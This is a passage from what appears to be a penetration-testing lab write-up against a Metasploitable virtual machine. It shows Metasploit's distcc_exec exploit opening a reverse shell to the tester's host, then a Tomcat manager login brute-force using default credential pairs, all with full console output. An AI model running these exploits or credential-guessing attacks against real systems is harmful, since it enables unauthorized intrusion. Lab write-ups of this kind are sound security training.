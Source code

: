 But a search in Metasploit found an exploit for the DistCC Daemon. Unfortunately, it did not include any information about what versions this exploit would impact, but a shot-in-the-dark to run the exploit ended up successfully returning a shell:

```
msf > search distccd
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                           Disclosure Date  Rank       Description
   ----                           ---------------  ----       -----------
   exploit/unix/misc/distcc_exec  2002-02-01       excellent  DistCC Daemon Command Execution



msf > use exploit/unix/misc/distcc_exec
msf exploit(unix/misc/distcc_exec) > run

[*] Started reverse TCP double handler on 172.16.243.144:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo dvVvr9yfS55bmx5j;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "dvVvr9yfS55bmx5j\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 4 opened (172.16.243.144:4444 -> 172.16.243.143:35054) at 2018-03-25 18:45:45 -0400

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
hostname
metasploitable
```

### Apache Tomcat/Coyote JSP engine 1.1

Another service to look at was the Apache tomcat web server running on port 8180.

```
8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/5.5
```

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(scanner/http/tomcat_mgr_login) > set rport 8180
rport => 8180
msf auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 172.16.243.143:8180 - LOGIN FAILED: admin:admin (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: admin:manager (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: admin:root (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 172.16.243.143:8180 - LOGIN FAILED: manager:admin (Incorrect)
```
